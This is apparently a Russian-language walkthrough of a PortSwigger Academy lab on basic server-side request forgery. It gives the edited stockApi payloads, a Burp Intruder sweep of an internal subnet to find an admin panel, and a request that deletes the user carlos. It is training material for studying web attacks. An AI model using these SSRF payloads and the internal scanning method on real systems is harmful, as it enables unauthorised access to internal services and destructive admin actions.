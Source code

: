 Перейдем на случайный товар и нажмем `Сheck stock`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/2.%20Basic%20SSRF%20against%20another%20back-end%20system/pics%20for%20walktrough/1.png)

найдем в `Proxy` -> `HTTP history` и найдем тот самый запрос, который посылается в приложение при нажатии кнопки `Сheck stock` и отправим данный запрос в `Repeater`
```
POST /product/stock
...
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D8%26storeId%3D1
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/2.%20Basic%20SSRF%20against%20another%20back-end%20system/pics%20for%20walktrough/2.png)

Увидим, что идет редирект на `192.168.0.1`, попробуем пробиться через параметр `stockApi` в админскую директорию
```
POST /product/stock
...
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fadmin
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/2.%20Basic%20SSRF%20against%20another%20back-end%20system/pics%20for%20walktrough/3.png)

Видим 400 респонс статус код, означающий недостаток прав. Отправим запрос в `Indruder`. Выполним поиск по другим ip-адресам в данной подсетке по simple list'у
```
stockApi=http%3A%2F%2F192.168.0.§1§%3A8080%2Fadmin
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/2.%20Basic%20SSRF%20against%20another%20back-end%20system/pics%20for%20walktrough/4.png)

Выберем всю нулевую подсетку, соответсвенно посканим все от `0-255` и нажмем `Start attack`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/2.%20Basic%20SSRF%20against%20another%20back-end%20system/pics%20for%20walktrough/5.png)

Отсортируем по статус респонс коду, и увидим, что на 192.168.0.61 выдало 200 статус респонс код

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/2.%20Basic%20SSRF%20against%20another%20back-end%20system/pics%20for%20walktrough/6.png)

Вернемся в `Repeater` и отправим запрос на `192.168.0.61` и админскую панель
```
POST /product/stock
...
stockApi=http%3A%2F%2F192.168.0.61%3A8080%2Fadmin
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/2.%20Basic%20SSRF%20against%20another%20back-end%20system/pics%20for%20walktrough/7.png)

Удалим УЗ carlos согласно заданию, и получим уведомление об успешно выполненном задании

```
POST /product/stock
...
stockApi=http%3A%2F%2F192.168.0.61%3A8080%2Fadmin/delete?username=carlos
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/9.%20Server-side%20request%20forgery%20(SSRF)/2.%20Basic%20SSRF%20against%20another%20back-end%20system/pics%20for%20walktrough/8.png)
